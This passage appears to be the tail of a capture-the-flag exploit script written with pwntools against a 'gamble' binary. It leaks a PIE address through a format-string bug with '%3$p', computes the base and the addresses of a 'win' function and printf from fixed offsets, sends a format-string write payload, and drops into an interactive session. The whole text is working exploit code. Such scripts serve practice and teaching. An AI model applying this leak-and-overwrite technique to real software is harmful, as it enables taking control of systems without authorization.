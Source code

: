         return payload

    # gamble contains a vulnerable printf (it prints the handle), so use a format string handle
    p = init("%3$p") # binary base address (0x565...)
    gamble(p)

    # grab the address from this printf
    p.recvuntil("0x")
    address = int(p.recvuntil("!", drop=True), 16)
    p.recvuntil("...")
    p.sendline()

    # offset of do_gamble from PIE binary is 0x1448
    # offset of the leaked address from do_gamble is 0x125 (ty gdb)
    base   = address - 0x0125 - 0x1448
    win    = base + 0x0ab4  # the offset of win from the PIE base
    printf = base + 0x3528  # the offset of printf from the PIE base

    payload = payload(win, printf, 9)

    change_handle(p, payload)

    pause()

    gamble(p)

    p.interactive()

==========================================================